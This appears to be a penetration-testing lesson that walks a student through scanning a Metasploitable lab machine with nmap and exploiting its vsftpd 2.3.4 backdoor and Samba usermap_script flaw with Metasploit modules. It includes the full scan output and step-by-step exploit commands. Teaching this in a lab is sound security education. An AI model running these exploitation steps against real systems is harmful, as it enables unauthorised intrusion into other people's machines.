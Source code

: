 # Access to operating systems

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Introduction to gaining access
2. Server side.

## Introduction 

In this stage, we're going to be talking about gaining access to computer devices.

What do we mean by computer devices?
Any electronic device you see is a computer. A phone, a TV, a laptop, a web server, a website, a network, a router, all of these things are computers
Each one of them has an operating system, and they have programs installed on these operating systems.

We're going to be talking about attacking these devices from two main sides: 
1. Server side.
2. Client side.


## server side

First things, we want to run the kali and the Metasploitable.
We want to know the information about the target, we need to scan the target

	nmap 10.0.2.7

> In my case the IP adress of the Metasploitable is 10.0.2.7 you will have another IP.
 
 we will see these output
 
	┌──(tetra㉿kali)-[~]
	└─$ nmap -sV 10.0.2.7    
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 10:46 EEST
	Nmap scan report for 10.0.2.7
	Host is up (0.00013s latency).
	Not shown: 977 closed ports
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      Linux telnetd
	25/tcp   open  smtp        Postfix smtpd
	53/tcp   open  domain      ISC BIND 9.4.2
	80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     2 (RPC #100000)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        netkit-rsh rexecd
	513/tcp  open  login       OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped
	1099/tcp open  java-rmi    GNU Classpath grmiregistry
	1524/tcp open  bindshell   Metasploitable root shell
	2049/tcp open  nfs         2-4 (RPC #100003)
	2121/tcp open  ftp         ProFTPD 1.3.1
	3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         VNC (protocol 3.3)
	6000/tcp open  X11         (access denied)                                   
	6667/tcp open  irc         UnrealIRCd                                        
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                      
	8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1               
	MAC Address: 08:00:27:10:69:2F (Oracle VirtualBox virtual NIC)               
	Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds


know we see we have port `21/tcp` is open and running `ftp` service which have `vsftpd 2.3.4`  if we go in the Google and write vsftpd 2.3.4 exploit

![vsftpdexploit](/img/vsftpdexploit1.png)

### Metasploit 

What is Metasploit 

Metasploit is an exploit development and execution tool. it can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks. We have some command for Metasploit 

|command| what it does |
|--|--|
| `msfconsole` | runs the metasploit console |
| `help` | shows help |
| `show [something]` | something can be exploits, payloads, auxiliaries or options |
| `use[something]` | use a certain exploit, payload or auxiliary |
| `set[option] [value]` | confider[option] to have a value of [value]|
| `exploit` | runs the current task |

now go to the terminal:

1. write `msfconsole` 

![msfconsole1](/img/msfconsole1.png)

2. we want to add the command that we take it from this [website,](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) which is `use exploit/unix/ftp/vsftpd_234_backdoor`

![msfconsole2](/img/msfconsole2.png)

3.  we need to show option to know what can we do `show options`

![showoption](/img/showoption.png)

4. we need to change the `RHOST` by using `set RHOST 10.0.2.7`

![setRHOST](/img/setRHOST.png)

5. know write `exploit` awesome we hacked the Metasploit .

Now let's try to another service, let's see `139/tcp` which have service `netbios-ssn` 

1. Go to the Google and write `Samba smbd 3.X exploit`
2. open `msfconsole`
3. use the `use use exploit/multi/samba/usermap_script`
4. show options and set the options
5. run the command `exploit`

## practice

1. Open your kali and metasploit machine.
2. Hack the metasploit machine. 
3. In the files in  metasploit machine,  there is 1 game what is the game?
